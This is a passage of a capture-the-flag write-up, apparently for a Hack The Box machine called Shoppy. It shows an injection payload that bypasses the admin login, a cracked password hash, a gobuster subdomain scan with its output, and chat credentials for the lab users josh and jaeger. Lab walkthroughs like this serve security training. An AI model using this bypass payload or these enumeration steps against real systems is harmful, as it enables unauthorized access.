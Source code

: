 ```admin'||'1==1```
<img width="786" alt="hash-for-josh" src="https://user-images.githubusercontent.com/95465072/208038459-27930a24-ad73-43b6-ae02-44f679fefe1e.png">


|hash|password  |
|--|--|
|  6ebcea65320589ca4f2f1ce039975995| remembermethisway |

## Subdomain Enumeration
```sh
gobuster vhost -w /usr/share/wordlists/SecLists/bitquark-subdomains-top100000.txt -t 50 -u shoppy.htb --no-error
```

### Results: 
```
┌──(root㉿kali)-[/usr/share/wordlists/SecLists]
└─# gobuster vhost -w /usr/share/wordlists/SecLists/bitquark-subdomains-top100000.txt -t 50 -u shoppy.htb --no-error
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://shoppy.htb
[+] Method:          GET
[+] Threads:         50
[+] Wordlist:        /usr/share/wordlists/SecLists/bitquark-subdomains-top100000.txt
[+] User Agent:      gobuster/3.3
[+] Timeout:         10s
[+] Append Domain:   false
===============================================================
2022/12/16 01:08:10 Starting gobuster in VHOST enumeration mode
===============================================================
mattermost                (Status: 200) [Size: 1074]
```

We got the subdomain **http://mattermost.shoppy.htb** add this to **/etc/hosts**


login as josh

<img width="956" alt="logged-in-as-josh" src="https://user-images.githubusercontent.com/95465072/208038659-fd645b6d-e9b4-4a3e-99dc-74d5901211c7.png">

username **josh**
password **remembermethisway**

> Boom! in the comments section we got

<img width="644" alt="comments" src="https://user-images.githubusercontent.com/95465072/208038717-e92f1f9c-0a2c-4c6e-8b01-c5c6814a973f.png">
```
jaeger
4:22 AM

Hey @josh,
For the deploy machine, you can create an account with these creds :
username: jaeger
password: Sh0ppyBest@pp!
And deploy on it.
```
